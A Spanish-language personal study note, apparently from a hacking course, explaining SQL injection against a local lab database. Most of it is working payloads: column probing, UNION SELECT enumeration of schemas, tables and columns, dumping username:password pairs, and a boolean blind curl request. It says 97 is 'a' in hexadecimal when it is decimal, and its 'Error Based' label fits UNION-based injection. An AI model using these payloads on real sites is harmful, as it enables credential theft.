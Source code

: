 ```yaml
---
created: 2024-12-21

---
```

-----
+ tags: #sql #sqli #sqlmap #web 
-----

----------------------==Información==--------------------
La idea es insertar código en la cosulta a la base de datos. Si la consulta se hace así: '$id', hará falta insertar una comilla para escapar,
sin embargo **si no hay comillas no hará falta!!!**


# Error Based

> Las inyecciones Error Based permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*

### Seleccionar las columnas que existen
- Lo que buscamos aquí es seleccionar las columnas que hayan para poder sustituir más tarde dichos valores por otros.

*En el siguiente ejemplo simulamos que hemos encontrado 5 columnas:*

	?id=3' union select 1,2,3,4,5-- -

*Si utilizando la query anterior no vemos nada raro, podemos cambiar el 3 por un valor que no exista en la base de datos:*

	?id=123456' union select 1,2,3,4,5-- -


### Extracción de la información
Ahora nos queda extraer la información, se pueden probar varias cosas:


#### Base de datos en uso

	database()


#### Ver bases de datos existentes

	schema_name from information_schema.schemata 

*SI hay mas bases de datos que columnas por las que filtrar, no podrán mostrarse todas las bases de datos de esta manera. Ver Alternativa*

#### Ver bases de datos existentes (Alternativa)

	schema_name from information_schema.schemata limit 0,1
	schema_name from information_schema.schemata limit 1,1
	schema_name from information_schema.schemata limit 2,1

#### Ver bases de datos existentes (Alternativa 2 (Más recomendable))
	?id=123456' union select group_concat(schema_name) from information_schema.schemata-- -


#### Ver tablas existentes
	?id=123456' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4U'-- -

	(Respuesta: users)

#### Ver columnas existentes
	?id=123456' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4U' and table_name='users'-- -

	(Respuesta: id,username,password)

#### Ver columnas existentes (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(column_name)


#### Ver valores de las columnas
	?id=123456' union select group_concat(username) from Hack4U.users-- -
	?id=123456' union select group_concat(username,0x3a,password) from Hack4U.users-- -

#### Ver valores de las columnas (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(username) from users-- -
	?id=123456' union select group_concat(username,0x3a,password) from users-- -



# Non-Error Based

> Las inyecciones Non-Error Based no permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
	
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*



# Blind 

## Boolean Based

	curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)"

97 es 'a' en hexadecimal. El primer usuario es admin y por lo tanto el primer caracter es 'a', por lo que la respuesta será código de estado 200, 1, TRUE...


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
